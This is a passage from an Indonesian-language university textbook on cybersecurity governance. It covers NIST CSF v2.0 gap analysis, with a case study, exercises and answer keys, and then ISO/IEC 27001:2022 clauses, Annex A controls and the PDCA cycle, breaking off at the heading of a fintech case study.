**Soal 3:** CSF **Tier** mengukur *kematangan* keseluruhan program manajemen risiko keamanan siber — seberapa terstruktur, konsisten, dan proaktif pendekatan organisasi. CSF **Profile** adalah snapshot spesifik tentang outcomes mana yang sudah dicapai (Current Profile) dan outcomes mana yang ingin dicapai (Target Profile). Keduanya diperlukan: Tier memberikan gambaran tingkat kematangan proses, sementara Profile memberikan detail tentang aktivitas spesifik mana yang sudah dan belum dilakukan.

**Soal 4:** Koperasi simpan pinjam yang baru diawasi OJK harus memulai dari **GOVERN (GV.RM — Risk Management Strategy dan GV.RR — Roles & Responsibilities)**, karena: (1) tanpa strategi risiko yang jelas, tidak ada dasar untuk memprioritaskan keamanan; (2) OJK membutuhkan bukti bahwa ada struktur tata kelola; dan (3) ini akan menginformasikan seluruh program keamanan selanjutnya. Setelah Govern, prioritas berikutnya adalah **IDENTIFY (ID.AM)** — inventarisasi aset — karena tidak mungkin melindungi apa yang tidak diketahui.

---

## 11. Ringkasan Bab

NIST CSF v2.0 menyediakan kerangka yang komprehensif namun fleksibel untuk mengelola risiko keamanan siber. Dengan enam fungsi inti — Govern, Identify, Protect, Detect, Respond, Recover — CSF mengorganisasikan aktivitas keamanan ke dalam kategori yang bermakna secara bisnis, bukan hanya secara teknis.

Penambahan fungsi Govern dalam v2.0 adalah pengakuan eksplisit bahwa keamanan siber yang efektif membutuhkan fondasi tata kelola yang kuat. Tanpa strategi risiko yang jelas, tanggung jawab yang ditetapkan, dan pengawasan dari pimpinan, semua investasi teknis kehilangan arahnya.

CSF Profile — Current vs Target — adalah alat komunikasi yang sangat kuat, memungkinkan organisasi untuk mengartikulasikan posisi saat ini dan tujuan masa depan dalam bahasa yang dapat dipahami oleh pemangku kepentingan dari berbagai latar belakang.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** NIST CSF adalah framework sukarela (voluntary), bukan regulasi wajib di Indonesia. Namun, beberapa regulasi OJK dan BSSN merujuk padanya sebagai referensi. Apakah seharusnya Indonesia memandatkan penggunaan NIST CSF atau framework standar serupa untuk sektor kritis? Apa pro dan kontra dari mandatisasi ini?

**Pertanyaan Refleksi 2:** Fungsi Govern menekankan pentingnya peran pimpinan (Dewan Direksi, CEO) dalam pengawasan keamanan siber. Namun, dalam praktiknya, banyak pemimpin organisasi di Indonesia masih menganggap keamanan siber sebagai "masalah IT". Sebagai CISO, strategi apa yang akan Anda gunakan untuk meningkatkan keterlibatan pimpinan dalam tata kelola keamanan siber?

---

# BAB 8 — GAP ANALYSIS DAN EVALUASI POSTUR KEAMANAN ORGANISASI

**Pertemuan:** 8  
**Sub-CPMK:** Sub-CPMK.3  
**CPMK:** CPMK.3  
**Evaluasi:** Eval-3 (UTS 30%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 8, mahasiswa mampu:

- Menjelaskan konsep dan tujuan gap analysis dalam konteks keamanan siber.
- Melakukan gap analysis sederhana menggunakan NIST CSF v2.0 sebagai kerangka evaluasi.
- Mendokumentasikan temuan gap analysis dalam format laporan yang terstruktur.
- Menyusun rekomendasi penutup gap yang berbasis risiko dan dapat ditindaklanjuti.
- Mempersiapkan diri untuk Ujian Tengah Semester (UTS) yang mencakup materi Bab 1-8.

*Kaitan OBE: Sub-CPMK.3 → CPMK.3 → IK-11.a → CPL11 → Eval-3 (UTS 30%)*

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    GA["Gap Analysis\nKeamanan Siber"] --> Inp["Input"]
    GA --> Proc["Proses"]
    GA --> Out["Output"]
    
    Inp --> I1["Framework/Standar\n(NIST CSF, ISO 27001)"]
    Inp --> I2["Regulasi yang Berlaku\n(OJK, BSSN, PDP)"]
    Inp --> I3["Wawancara & Dokumentasi\n(Kebijakan, Prosedur)"]
    Inp --> I4["Observasi Teknis\n(Scan, Log Review)"]
    
    Proc --> P1["1. Tentukan Scope & Objectives"]
    Proc --> P2["2. Kumpulkan Data\n(Interview, Review Dok)"]
    Proc --> P3["3. Nilai Current State\nvs Requirements"]
    Proc --> P4["4. Identifikasi Gap"]
    Proc --> P5["5. Prioritaskan Gap\nberbasis Risiko"]
    
    Out --> O1["Gap Analysis Report"]
    Out --> O2["Risk Register Awal"]
    Out --> O3["Roadmap Remediasi"]
    Out --> O4["Executive Summary"]
    
    P3 --> Matrix["Maturity Matrix:\nCurrent State vs Target State"]
```

---

## 3. Pengantar Kontekstual

Gap analysis adalah proses sistematis untuk membandingkan kondisi keamanan saat ini (*current state*) dengan kondisi yang diinginkan (*target state*) berdasarkan standar, regulasi, atau best practice tertentu. Hasilnya adalah daftar kesenjangan (*gaps*) yang perlu ditutup beserta prioritas dan rencana tindakannya.

Dalam konteks keamanan siber, gap analysis berfungsi sebagai "medical check-up" bagi postur keamanan organisasi. Seperti pemeriksaan kesehatan yang mengidentifikasi kondisi yang perlu ditangani sebelum menjadi penyakit serius, gap analysis mengidentifikasi kelemahan keamanan sebelum menjadi insiden yang merugikan.

Gap analysis biasanya menjadi langkah pertama dalam perjalanan peningkatan keamanan siber sebuah organisasi — atau langkah awal ketika organisasi baru mengadopsi standar keamanan tertentu. Kemampuan melakukan dan mendokumentasikan gap analysis adalah salah satu kompetensi praktis yang paling sering dibutuhkan dalam karir keamanan siber.

---

## 4. Landasan Teori

### 4.1 Metodologi Gap Analysis

**Langkah 1: Penentuan Scope dan Objectives**
- Apa yang akan dinilai? (Seluruh organisasi, divisi tertentu, sistem tertentu?)
- Framework atau standar apa yang digunakan sebagai referensi?
- Apa tujuan akhir — compliance, risk reduction, atau program improvement?
- Siapa yang terlibat — auditor, CISO, manajemen, tim teknis?

**Langkah 2: Pengumpulan Data**
- Wawancara dengan pemangku kepentingan kunci
- Review dokumentasi: kebijakan, prosedur, diagram arsitektur, laporan audit sebelumnya
- Observasi teknis: scan kerentanan, review konfigurasi, sampling log
- Kuesioner self-assessment

**Langkah 3: Penilaian Current State**
Untuk setiap kontrol atau kategori dalam framework yang dipilih, nilai kondisi saat ini:

| Rating | Deskripsi |
|---|---|
| **0 — Tidak Ada** | Kontrol belum ada sama sekali |
| **1 — Inisial** | Kontrol ada tetapi tidak terdokumentasi dan tidak konsisten |
| **2 — Terencana** | Kontrol sedang dalam proses implementasi |
| **3 — Diterapkan** | Kontrol diterapkan tetapi belum divalidasi efektivitasnya |
| **4 — Dikelola** | Kontrol diterapkan, dimonitor, dan terdokumentasi |
| **5 — Dioptimalkan** | Kontrol terus dievaluasi dan ditingkatkan secara proaktif |

**Langkah 4: Identifikasi Gap**
Gap = Target State - Current State. Semakin besar selisihnya, semakin besar upaya yang diperlukan.

**Langkah 5: Prioritasi Berdasarkan Risiko**
Tidak semua gap sama pentingnya. Prioritasi berdasarkan:
- **Tingkat risiko yang ditimbulkan**: Kerentanan yang dapat dieksploitasi vs kelemahan prosedural
- **Kemudahan eksploitasi**: Apakah sudah ada exploit publik untuk kerentanan terkait?
- **Dampak bisnis**: Aset apa yang berisiko? Apa dampak finansial, operasional, dan reputasional?
- **Biaya dan kompleksitas remediasi**: Beberapa gap dapat ditutup dengan mudah; yang lain membutuhkan proyek besar

### 4.2 Gap Analysis Berbasis NIST CSF v2.0

NIST CSF v2.0 menyediakan struktur yang ideal untuk gap analysis karena:
1. Enam fungsi dan puluhan kategori/subkategori memberikan coverage yang komprehensif
2. Bahasa yang dapat dipahami non-teknis memfasilitasi keterlibatan manajemen
3. CSF Profile (Current vs Target) secara built-in dirancang untuk gap analysis

**Template Gap Analysis CSF v2.0:**

| Fungsi | Kategori | Current State | Target State | Gap | Risiko | Prioritas |
|---|---|---|---|---|---|---|
| GOVERN | GV.RM | Tier 1 | Tier 3 | 2 level | Tinggi | 1 |
| IDENTIFY | ID.AM | Tier 2 | Tier 3 | 1 level | Sedang | 3 |
| PROTECT | PR.AA | Tier 3 | Tier 4 | 1 level | Sedang | 4 |
| DETECT | DE.CM | Tier 1 | Tier 3 | 2 level | Tinggi | 2 |
| RESPOND | RS.MA | Tier 1 | Tier 3 | 2 level | Tinggi | 1 |
| RECOVER | RC.RP | Tier 1 | Tier 2 | 1 level | Sedang | 3 |

### 4.3 Mendokumentasikan Temuan Gap Analysis

Laporan gap analysis yang baik harus mencakup:

1. **Executive Summary** (untuk Dewan Direksi): Gambaran besar tentang postur keamanan dan risiko utama
2. **Scope dan Metodologi**: Apa yang dinilai dan bagaimana
3. **Temuan Detail**: Per fungsi/kategori, lengkap dengan bukti dan justifikasi
4. **Heatmap Risiko**: Visualisasi gap berdasarkan risiko dan kemudahan remediasi
5. **Roadmap Remediasi**: Rencana penutup gap yang diprioritaskan dan dijadwalkan
6. **Lampiran**: Bukti wawancara, dokumentasi yang direviu, hasil scan

---

## 5. Model atau Arsitektur

### 5.1 Gap Analysis Heatmap

```mermaid
quadrantChart
    title Gap Analysis Heatmap — Prioritas Remediasi
    x-axis Rendah Kompleksitas Remediasi --> Tinggi
    y-axis Rendah Tingkat Risiko --> Tinggi
    quadrant-1 Prioritas Tinggi (Quick Win Tinggi Risiko)
    quadrant-2 Prioritas Sangat Tinggi (Proyek Besar)
    quadrant-3 Pertimbangkan (Quick Win Rendah Risiko)
    quadrant-4 Pertimbangkan Jangka Panjang
    GV.RM Risk Strategy: [0.2, 0.9]
    DE.CM Monitoring: [0.7, 0.85]
    RS.MA Incident Response: [0.3, 0.8]
    ID.AM Asset Inventory: [0.2, 0.6]
    PR.DS Data Encryption: [0.5, 0.7]
    RC.RP Recovery Plan: [0.4, 0.65]
    PR.AT Awareness Training: [0.25, 0.45]
```

---

## 6. Contoh Terapan

### Studi Kasus: Gap Analysis di BPJS Kesehatan Regional (Ilustrasi)

**Konteks:**
Tim auditor keamanan eksternal melakukan gap analysis berbasis NIST CSF v2.0 di kantor regional BPJS Kesehatan dengan 200 karyawan yang mengelola data 500.000 peserta.

**Metodologi:**
- Wawancara dengan Kepala IT, Staff Administrasi, dan Kepala Pelayanan (3 hari)
- Review 15 dokumen: kebijakan IT, prosedur backup, panduan pengguna, laporan audit sebelumnya
- Observasi teknis: review konfigurasi server, sampling 50 log event

**Temuan Kunci:**

*GOVERN — Tier 1 (Sangat Kritis):*
Tidak ada risk management strategy yang terdokumentasi. Kepala IT membuat keputusan keamanan secara ad-hoc tanpa persetujuan manajemen. Tidak ada budget keamanan yang dialokasikan secara formal.

*IDENTIFY — Tier 2 (Kritis):*
Inventarisasi aset ada tapi dalam spreadsheet yang tidak diperbarui sejak 2021. 30% server tidak terdaftar. Tidak ada risk assessment formal pernah dilakukan.

*PROTECT — Tier 2 (Sedang):*
Antivirus terpasang di semua endpoint tetapi tidak selalu diperbarui. Kebijakan password ada tetapi tidak ditegakkan secara teknis. MFA tidak ada.

*DETECT — Tier 1 (Sangat Kritis):*
Tidak ada SIEM atau monitoring real-time. Log disimpan di masing-masing server tanpa agregasi. Tidak ada kemampuan alert.

*RESPOND — Tier 1 (Kritis):*
Tidak ada Incident Response Plan (IRP). Ketika ditanya prosedur respons insiden, semua responden menyebut "hubungi Kepala IT".

*RECOVER — Tier 1-2 (Sedang):*
Backup dilakukan setiap malam ke NAS lokal. Belum pernah diuji pemulihan. Tidak ada offsite backup.

**Rekomendasi Prioritas:**

| # | Rekomendasi | Gap yang Ditutup | Timeline | Estimasi Biaya | Risiko Jika Tidak Dilakukan |
|---|---|---|---|---|---|
| 1 | Implementasi IRP dasar + latihan tabletop | RS.MA, RS.AN | 30 hari | Rendah (SDM internal) | Tidak dapat merespons insiden secara terkoordinasi |
| 2 | Aktifkan Windows Event Log collection + deploy free SIEM (Wazuh) | DE.CM | 45 hari | Rendah | Dwell time sangat panjang jika terjadi insiden |
| 3 | Implementasi MFA untuk akun admin + email | PR.AA | 14 hari | Rendah-Sedang | Kredensial curian dapat memberikan akses penuh |
| 4 | Perbarui inventarisasi aset + lakukan risk assessment | ID.AM, ID.RA | 60 hari | Rendah (SDM) | Tidak dapat memprioritaskan proteksi dengan tepat |
| 5 | Formalisasi kebijakan keamanan + alokasi budget | GV.RM, GV.PO | 90 hari | Rendah | Tidak ada landasan untuk program keamanan jangka panjang |

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 8.1: Gap Analysis Organisasi Fiktif

**Tujuan:** Melakukan gap analysis lengkap menggunakan NIST CSF v2.0 untuk skenario organisasi fiktif.

**Lingkungan:** Workshop berbasis dokumen, dapat dilakukan secara kelompok (2-3 mahasiswa).

**Skenario:** Sebuah klinik gigi swasta dengan 3 dokter, 5 staf, dan 1.000 rekam medis digital. Klinik menggunakan software rekam medis berbasis cloud, Wi-Fi tanpa segmentasi, dan 1 staff IT part-time.

**Output yang Diharapkan:**
- Completed CSF Gap Analysis Matrix
- Executive Summary (1 halaman, bahasa Indonesia formal)
- Top 5 Rekomendasi dengan justifikasi berbasis risiko
- Roadmap remediasi 6 bulan

**Kriteria Keberhasilan:**
- Setiap fungsi CSF dinilai dengan justifikasi yang jelas
- Gap diprioritaskan berdasarkan risiko (bukan sekadar berdasarkan besarnya gap)
- Rekomendasi yang realistis untuk konteks klinik kecil

---

## 8. Latihan Pemahaman

**Soal 1 (PG):** Gap analysis yang menemukan bahwa organisasi tidak memiliki Incident Response Plan (IRP) menunjukkan gap pada fungsi CSF:
A. PROTECT   B. DETECT   C. RESPOND   D. GOVERN

**Soal 2 (PG):** Temuan bahwa inventarisasi aset hanya mencakup 60% dari sistem yang sebenarnya ada menunjukkan gap pada kategori CSF:
A. GV.RM   B. ID.AM   C. PR.DS   D. DE.CM

**Soal 3 (Esai):** Jelaskan mengapa gap analysis yang menghasilkan 100+ gap justru tidak membantu organisasi. Bagaimana seharusnya gap analisis yang baik memprioritaskan temuannya?

**Soal 4 (Studi Kasus Singkat):** Gap analysis menemukan bahwa sebuah perusahaan memiliki kebijakan password yang kuat (PR.AA Tier 3), tetapi tidak memiliki monitoring untuk mendeteksi upaya brute force (DE.CM Tier 1). Jelaskan mengapa kondisi ini berbahaya meskipun kontrol salah satunya sudah cukup baik.

**Soal 5 (Perancangan):** Anda baru bergabung sebagai CISO di sebuah perusahaan asuransi yang belum pernah melakukan gap analysis. Rancang rencana pelaksanaan gap analysis 8-minggu: siapa yang dilibatkan, apa yang dievaluasi, apa yang dihasilkan setiap minggunya.

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus: Gap Analysis dan Roadmap untuk Bank Digital Baru

Sebuah bank digital yang baru mendapat lisensi OJK berencana untuk meluncurkan layanan dalam 6 bulan. Mereka memiliki 30 developer, 5 staf operasional, dan 1 CISO (Anda). OJK mensyaratkan kepatuhan terhadap POJK Nomor 4/POJK.05/2021 tentang ketahanan siber, yang secara substansial merujuk pada NIST CSF.

**Kondisi Saat Ini:**
- Infrastruktur: AWS multi-region dengan arsitektur yang masih dalam pengembangan
- Keamanan: DevSecOps pipeline dasar ada; tidak ada SIEM, tidak ada IRP, tidak ada kebijakan formal
- Tim: CISO + 2 developer yang juga merangkap keamanan
- Timeline: 6 bulan ke launch; OJK audit dalam 4 bulan

**Pertanyaan:**

1. **Gap Analysis (C4)**: Berdasarkan kondisi di atas, identifikasi gap yang paling kritis untuk setiap fungsi CSF. Untuk setiap gap, nyatakan: Current State (Tier berapa), Target State minimum untuk OJK compliance, dan justifikasi mengapa ini kritis.

2. **Roadmap Prioritas (C5)**: Dengan timeline 4 bulan sebelum audit OJK, buat roadmap yang realistis. Apa yang HARUS dicapai dalam 4 bulan (untuk lolos audit minimum)? Apa yang dapat ditunda ke pasca-launch? Bagaimana Anda memprioritaskan dengan tim yang sangat terbatas?

---

## 10. Kunci Jawaban dan Pembahasan

**Soal 1 — C (RESPOND):** Incident Response Plan adalah komponen inti dari fungsi Respond (RS.MA — Incident Management). Ketiadaan IRP berarti organisasi tidak memiliki kemampuan respons yang terstruktur ketika insiden terjadi.

**Soal 2 — B (ID.AM):** ID.AM (Asset Management) mencakup inventarisasi dan pengelolaan aset informasi. Inventarisasi yang hanya mencakup 60% sistem adalah gap yang sangat serius — ini berarti 40% aset tidak diketahui, tidak dipantau, dan tidak dilindungi.

**Soal 3:** Gap analysis dengan 100+ gap overwhelms tim dengan terlalu banyak prioritas yang sama. Solusinya adalah: (a) Prioritaskan berdasarkan kombinasi tingkat risiko × kemudahan remediasi; (b) Fokus pada "quick wins" yang mengurangi risiko signifikan dengan upaya kecil; (c) Kelompokkan gap terkait ke dalam inisiatif yang koheren; (d) Buat roadmap bertahap: 30-60-90 hari vs jangka panjang.

**Soal 4:** Kondisi ini berbahaya karena: kebijakan password kuat (PR.AA Tier 3) hanya melindungi terhadap brute force JIKA ada mekanisme lockout. Namun tanpa monitoring (DE.CM Tier 1), penyerang dapat menggunakan credential stuffing atau slow brute force (mencoba 1-2 password per hari per akun) tanpa pernah terdeteksi. Kontrol preventif yang baik tanpa kontrol detektif yang memadai menciptakan false sense of security.

---

## 11. Ringkasan Bab

Gap analysis adalah alat manajemen risiko yang menghubungkan kondisi keamanan saat ini dengan kondisi yang diinginkan berdasarkan standar, regulasi, atau best practice. Proses yang terstruktur — dari penentuan scope hingga prioritasi dan dokumentasi temuan — menghasilkan roadmap yang dapat ditindaklanjuti untuk meningkatkan postur keamanan secara bertahap dan berbasis risiko.

NIST CSF v2.0 adalah framework yang ideal untuk gap analysis karena strukturnya yang komprehensif namun fleksibel, bahasa yang dapat dipahami multi-level stakeholder, dan built-in support untuk Current vs Target Profile.

Kunci keberhasilan gap analysis bukan terletak pada kelengkapan temuan, melainkan pada kualitas prioritasi. Gap analysis yang menghasilkan roadmap yang terfokus, realistis, dan berbasis risiko jauh lebih bernilai daripada laporan tebal yang berisi ratusan temuan tanpa prioritas yang jelas.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:** Gap analysis yang baik mengidentifikasi kelemahan yang mungkin memalukan bagi manajemen atau menunjukkan ketidakpatuhan yang serius. Sebagai konsultan keamanan eksternal, bagaimana Anda menyajikan temuan yang sensitif ini kepada klien secara profesional — jujur namun konstruktif, tanpa merusak hubungan kerja?

**Pertanyaan Refleksi 2:** Gap analysis berbasis NIST CSF seringkali merekomendasikan investasi signifikan yang tidak dapat dipenuhi oleh semua organisasi. Bagaimana Anda membantu manajemen membuat keputusan yang bertanggung jawab tentang risiko residual — risiko yang dipilih untuk diterima karena keterbatasan sumber daya? Apa dokumentasi yang diperlukan agar keputusan ini dapat dipertanggungjawabkan?

---


---

# BAB 9 — ISO/IEC 27001:2022: SISTEM MANAJEMEN KEAMANAN INFORMASI (ISMS)

**Pertemuan:** 9  
**Sub-CPMK:** Sub-CPMK.4  
**CPMK:** CPMK.3, CPMK.4  
**Evaluasi:** Eval-4 (Gap analysis, risk assessment, arsitektur, hardening, 10%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 9, mahasiswa mampu:

- Menjelaskan ruang lingkup dan tujuan ISO/IEC 27001:2022 sebagai standar internasional ISMS.
- Mendeskripsikan struktur klausul 4–10 ISO 27001:2022 dan hubungannya dengan siklus PDCA.
- Membedakan ISO 27001 (persyaratan ISMS) dari ISO 27002 (panduan kontrol keamanan).
- Menjelaskan Annex A ISO 27001:2022 dan hubungannya dengan ISO 27002:2022.
- Menerapkan prinsip ISMS untuk evaluasi kesesuaian kebijakan keamanan organisasi.

*Kaitan OBE: Sub-CPMK.4 → CPMK.3, CPMK.4 → IK-11.a, IK-9.a → CPL11, CPL9 → Eval-4*

---

## 2. Peta Konsep Bab

```mermaid
flowchart TD
    ISO27001["ISO/IEC 27001:2022\nISMS Standard"] --> Scope["Klausul 1-3\nScope, Terms, References"]
    ISO27001 --> Context["Klausul 4\nContext of the Organization"]
    ISO27001 --> Leadership["Klausul 5\nLeadership"]
    ISO27001 --> Planning["Klausul 6\nPlanning"]
    ISO27001 --> Support["Klausul 7\nSupport"]
    ISO27001 --> Operation["Klausul 8\nOperation"]
    ISO27001 --> Performance["Klausul 9\nPerformance Evaluation"]
    ISO27001 --> Improvement["Klausul 10\nImprovement"]
    ISO27001 --> AnnexA["Annex A\n93 Kontrol Keamanan\n(Referensi ke ISO 27002)"]
    
    Context --> C1["4.1 Konteks Internal/Eksternal\n4.2 Kebutuhan Pemangku Kepentingan\n4.3 Scope ISMS\n4.4 ISMS"]
    Planning --> P1["6.1 Risk & Opportunity\n6.2 Tujuan Keamanan Informasi\n6.3 Perencanaan Perubahan"]
    Operation --> O1["8.1 Perencanaan Operasional\n8.2 Information Security Risk Assessment\n8.3 Information Security Risk Treatment"]
    
    AnnexA --> A1["Tema A: Organizational\n37 kontrol"]
    AnnexA --> A2["Tema B: People\n8 kontrol"]
    AnnexA --> A3["Tema C: Physical\n14 kontrol"]
    AnnexA --> A4["Tema D: Technological\n34 kontrol"]
```

---

## 3. Pengantar Kontekstual

ISO/IEC 27001 adalah satu-satunya standar internasional yang dapat dijadikan dasar sertifikasi untuk sistem manajemen keamanan informasi. Sejak pertama kali diterbitkan pada 2005, standar ini telah menjadi referensi global yang diakui oleh regulator, pelanggan, mitra bisnis, dan investor sebagai bukti bahwa sebuah organisasi mengelola keamanan informasi secara serius dan terstruktur.

Pembaruan terakhir, ISO/IEC 27001:2022, dirilis pada Oktober 2022 dengan perubahan signifikan pada Annex A — yang kini selaras dengan ISO 27002:2022 yang mengorganisasikan kontrol ke dalam empat tema (Organizational, People, Physical, Technological) dan menambahkan 11 kontrol baru yang mencerminkan ancaman dan teknologi modern.

Di Indonesia, ISO 27001 semakin menjadi persyaratan dalam tender pemerintah, kontrak layanan cloud, dan audit kepatuhan OJK. Memahami standar ini secara mendalam — bukan sekadar "untuk lulus sertifikasi" — adalah fondasi untuk membangun program keamanan informasi yang benar-benar efektif.

---

## 4. Landasan Teori

### 4.1 Apa itu ISMS?

> **Definisi (ISO/IEC 27001:2022):** *Information Security Management System (ISMS)* adalah sistem manajemen yang mencakup kebijakan, prosedur, pedoman, dan sumber daya serta aktivitas terkait yang secara kolektif dikelola oleh sebuah organisasi dalam upaya melindungi aset informasinya.

ISMS bukan semata-mata teknologi — ini adalah kombinasi dari:
- **Kebijakan dan prosedur**: Aturan yang mengatur bagaimana keamanan dikelola
- **Orang**: Tanggung jawab, pelatihan, dan budaya keamanan
- **Teknologi**: Kontrol teknis yang mengimplementasikan kebijakan
- **Proses**: Siklus Plan-Do-Check-Act yang berkelanjutan

**Siklus PDCA dalam ISMS:**
- **Plan**: Tetapkan scope, risk assessment, tujuan, dan kontrol
- **Do**: Implementasikan kontrol dan prosedur
- **Check**: Monitor, audit, dan evaluasi efektivitas
- **Act**: Tindaklanjuti temuan, perbaiki, dan tingkatkan

### 4.2 Struktur Klausul ISO/IEC 27001:2022

ISO 27001 mengikuti struktur *High Level Structure (HLS)* yang sama dengan standar ISO manajemen lainnya (ISO 9001, ISO 14001, dsb.), memudahkan integrasi sistem manajemen.

#### Klausul 4: Context of the Organization

**4.1 Konteks Internal dan Eksternal:**
Organisasi harus memahami faktor-faktor yang mempengaruhi kemampuannya mencapai tujuan ISMS:
- *Faktor internal*: Budaya organisasi, kapabilitas, proses bisnis, regulasi internal
- *Faktor eksternal*: Regulasi nasional, kondisi pasar, ancaman geopolitik, ekspektasi pelanggan

**4.2 Kebutuhan dan Ekspektasi Pemangku Kepentingan:**
Identifikasi semua pihak yang berkepentingan (karyawan, pelanggan, regulator, mitra, investor) dan persyaratan keamanan mereka. Persyaratan ini menjadi input untuk scope dan kontrol ISMS.

**4.3 Scope ISMS:**
Scope adalah batas-batas ISMS — sistem, lokasi, fungsi, dan aset yang dicakup. Penetapan scope yang tepat adalah salah satu keputusan paling kritis dalam implementasi ISO 27001.

**4.4 ISMS:**
Klausul ini secara formal mewajibkan organisasi untuk menetapkan, mengimplementasikan, memelihara, dan terus meningkatkan ISMS.

#### Klausul 5: Leadership

**5.1 Kepemimpinan dan Komitmen:**
Manajemen puncak harus menunjukkan komitmen aktif terhadap ISMS — bukan sekadar nominal. Ini termasuk: memastikan kebijakan dan tujuan keamanan ditetapkan, menyediakan sumber daya yang cukup, mengintegrasikan ISMS dengan proses bisnis.

**5.2 Kebijakan:**
Kebijakan Keamanan Informasi (*Information Security Policy*) harus:
- Sesuai dengan tujuan organisasi
- Mencakup komitmen untuk memenuhi persyaratan yang berlaku
- Mencakup komitmen untuk peningkatan berkelanjutan
- Dikomunikasikan kepada seluruh pihak yang relevan

**5.3 Peran, Tanggung Jawab, dan Otoritas:**
Tanggung jawab untuk ISMS harus ditetapkan dan dikomunikasikan secara jelas — siapa yang bertanggung jawab untuk apa, dan kepada siapa mereka melapor.

#### Klausul 6: Planning

**6.1 Tindakan untuk Mengatasi Risiko dan Peluang:**
Ini adalah jantung dari ISO 27001 — proses risk assessment dan risk treatment:

*Risk Assessment:*
1. Tetapkan kriteria risiko (risk appetite, dampak, likelihood)
2. Identifikasi risiko terhadap aset informasi
3. Analisis risiko (nilai kemungkinan dan dampak)
4. Evaluasi risiko (bandingkan dengan kriteria untuk prioritas)

*Risk Treatment:*
Untuk setiap risiko yang dievaluasi, pilih opsi treatment:
- **Mitigate** (Kurangi): Implementasikan kontrol untuk mengurangi kemungkinan atau dampak
- **Transfer** (Alihkan): Asuransi, outsourcing dengan kontrak keamanan
- **Avoid** (Hindari): Hentikan aktivitas yang menimbulkan risiko
- **Accept** (Terima): Terima risiko jika berada di bawah threshold toleransi

Hasil risk treatment didokumentasikan dalam *Statement of Applicability (SoA)* — dokumen yang menyatakan kontrol mana dari Annex A yang berlaku, mengapa, dan status implementasinya.

**6.2 Tujuan Keamanan Informasi:**
Tujuan harus SMART: Specific, Measurable, Achievable, Relevant, Time-bound.

#### Klausul 7: Support

**7.1 Sumber Daya**: Anggaran, personel, infrastruktur
**7.2 Kompetensi**: Pastikan personel yang mengelola ISMS memiliki kompetensi yang diperlukan
**7.3 Kesadaran**: Semua karyawan harus memahami kebijakan ISMS dan peran mereka
**7.4 Komunikasi**: Kapan, kepada siapa, dan bagaimana berkomunikasi tentang ISMS
**7.5 Informasi Terdokumentasi**: Semua kebijakan, prosedur, dan rekaman yang diperlukan

#### Klausul 8: Operation

**8.1 Perencanaan dan Kontrol Operasional**: Implementasikan proses-proses yang telah direncanakan di Klausul 6

**8.2 Information Security Risk Assessment**: Lakukan risk assessment secara berkala atau ketika ada perubahan signifikan

**8.3 Information Security Risk Treatment**: Implementasikan rencana risk treatment dan dokumentasikan hasilnya

#### Klausul 9: Performance Evaluation

**9.1 Monitoring, Measurement, Analysis, and Evaluation**: Tentukan apa yang perlu dimonitor, bagaimana mengukurnya, kapan, dan siapa yang bertanggung jawab

**9.2 Internal Audit**: Audit internal ISMS secara berkala untuk memverifikasi kesesuaian dengan persyaratan

**9.3 Management Review**: Tinjauan manajemen puncak terhadap ISMS secara berkala — minimum tahunan

#### Klausul 10: Improvement

**10.1 Continual Improvement**: ISMS harus terus ditingkatkan
**10.2 Nonconformity and Corrective Action**: Ketidaksesuaian yang ditemukan harus ditindaklanjuti dengan tindakan korektif

### 4.3 Annex A: 93 Kontrol dalam 4 Tema

Annex A ISO 27001:2022 merupakan referensi normatif yang mencantumkan 93 kontrol keamanan yang dipetakan dari ISO 27002:2022. Kontrol-kontrol ini diorganisasikan dalam 4 tema:

| Tema | Jumlah Kontrol | Cakupan |
|---|---|---|
| **A.5 Organizational Controls** | 37 | Kebijakan, peran, manajemen risiko, supply chain, compliance |
| **A.6 People Controls** | 8 | Screening, onboarding, offboarding, kesadaran, disiplin |
| **A.7 Physical Controls** | 14 | Keamanan fisik, clear desk, perangkat pengguna akhir |
| **A.8 Technological Controls** | 34 | Access control, enkripsi, logging, patch, network security |

**11 Kontrol Baru di ISO 27001:2022 (dibandingkan 2013):**
Kontrol baru ini mencerminkan ancaman dan teknologi modern:
- A.5.7 — Threat intelligence
- A.5.23 — Information security for use of cloud services
- A.5.30 — ICT readiness for business continuity
- A.7.4 — Physical security monitoring
- A.8.9 — Configuration management
- A.8.10 — Information deletion
- A.8.11 — Data masking
- A.8.12 — Data leakage prevention
- A.8.16 — Monitoring activities
- A.8.23 — Web filtering
- A.8.28 — Secure coding

### 4.4 Pernyataan Penerapan (Statement of Applicability/SoA)

SoA adalah dokumen yang menyatakan:
1. Kontrol mana dari Annex A yang **berlaku** untuk organisasi
2. **Mengapa** kontrol tersebut berlaku (atau tidak berlaku)
3. **Status implementasi** setiap kontrol (sudah, sebagian, atau belum diimplementasi)
4. **Referensi** ke kebijakan atau prosedur yang mengimplementasikan kontrol tersebut

SoA adalah dokumen utama yang digunakan auditor sertifikasi untuk memverifikasi bahwa organisasi telah mengidentifikasi dan mengelola risiko secara komprehensif.

---

## 5. Model atau Arsitektur

### 5.1 Siklus ISMS ISO 27001 — PDCA

```mermaid
flowchart TD
    subgraph Plan["PLAN — Klausul 4,5,6,7"]
        P1["Pahami Konteks\n(Kl. 4)"]
        P2["Kepemimpinan &\nKebijakan (Kl. 5)"]
        P3["Risk Assessment\n& Treatment (Kl. 6)"]
        P4["Sumber Daya &\nKompetensi (Kl. 7)"]
        P1 --> P2 --> P3 --> P4
    end
    
    subgraph Do["DO — Klausul 8"]
        D1["Implementasi\nKontrol Annex A"]
        D2["Operasional ISMS\n(Kl. 8)"]
        D1 --> D2
    end
    
    subgraph Check["CHECK — Klausul 9"]
        C1["Monitoring &\nPengukuran"]
        C2["Internal Audit"]
        C3["Management Review"]
        C1 --> C2 --> C3
    end
    
    subgraph Act["ACT — Klausul 10"]
        A1["Corrective Action"]
        A2["Continual\nImprovement"]
        A1 --> A2
    end
    
    Plan --> Do --> Check --> Act --> Plan
    
    style Plan fill:#1565c0,color:#fff
    style Do fill:#2e7d32,color:#fff
    style Check fill:#e65100,color:#fff
    style Act fill:#4a148c,color:#fff
```

---

## 6. Contoh Terapan

### Studi Kasus: Implementasi ISMS ISO 27001 di Perusahaan Fintech

